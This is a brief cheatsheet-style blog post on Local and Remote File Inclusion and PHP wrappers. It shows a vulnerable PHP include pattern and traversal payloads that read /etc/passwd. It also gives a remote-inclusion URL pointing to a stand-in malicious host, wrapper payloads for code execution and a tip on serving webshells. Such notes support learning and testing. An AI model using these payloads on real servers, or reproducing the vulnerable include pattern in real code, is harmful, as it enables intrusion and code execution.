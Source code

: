 ```yaml
---
layout: post
title: "File Inclusions"
date: 2023-08-20
categories: [CHEATSHEET]
---
```


## Local File Inclusion (LFI)  

Attackers manipulate parameters to access files on the server, such as using `?page=../../etc/passwd` in a URL.

### Typical Vulnerable Code Patterns  


Common in PHP with `include()` or `require()` functions.

```php
$file = $_GET['file'];
include($file);
```

### Exploitation Techniques  


* **Basic LFI**: Direct file referencing, e.g., `?file=../../../../etc/passwd`.
* **Null Byte Injection**: Using `%00` or null byte in older PHP versions to bypass checks.
* **PHP Wrappers**: Utilizing PHP streams like `php://filter` for code execution or file disclosure.
* **Log Poisoning**: Injecting code into logs and including the log file to execute code.


> ***Note:***
>
> On Windows, directory structures might differ, and log files are located in application-specific paths.



## Remote File Inclusion (RFI)   

RFIis a type of vulnerability that allows an attacker to include and execute remotely hosted files within a web application. 

* Occurs when a web application dynamically includes external files or scripts from remote servers.
* Attackers manipulate input (e.g., URL parameters) to point to external malicious files, leading to execution of the attacker-controlled code on the server, For example, `?file=http://example.com/malicious_code.php`.
* **Wrapper Techniques**: Similar to LFI, attackers might use PHP wrappers (`php://input`, `data://`) in conjunction with RFI to bypass filters or execute non-standard payloads.
* **Filter Evasion**: Employing encoding or obfuscation to slip malicious payloads past input validation mechanisms.

> ***Note:***
>
> you can find webshells in kali linux under `/usr/share/webshells/` , choose one of them and expose it via a python webserver to test it out.


## PHP Wrappers  


**PHP Wrappers** are powerful tools in PHP that modify how file operations are handled, often exploited in LFI attacks to execute or disclose code.

#### Common PHP Wrappers and Usage Examples  


* **php://filter**: Converts file data through filters. Attackers use it to read PHP files in base64 encoding.
  * Example: `include('php://filter/read=convert.base64-encode/resource=index.php');`
* **php://input**: Reads raw data from the request body, used to execute code by including `php://input` and sending code in the request body.
  * Example: `include('php://input');` and POSTing PHP code.
* **php://memory** and **php://temp**: Allow access to read/write temporary data streams. Can be used to execute transient code that doesn't leave traces on the disk.
* **data://**: Allows inclusion of inline data. Can be exploited to execute arbitrary data as code.
  * Example: `include('data://text/plain;base64,SGVsbG8sIFdvcmxkIQ==');`
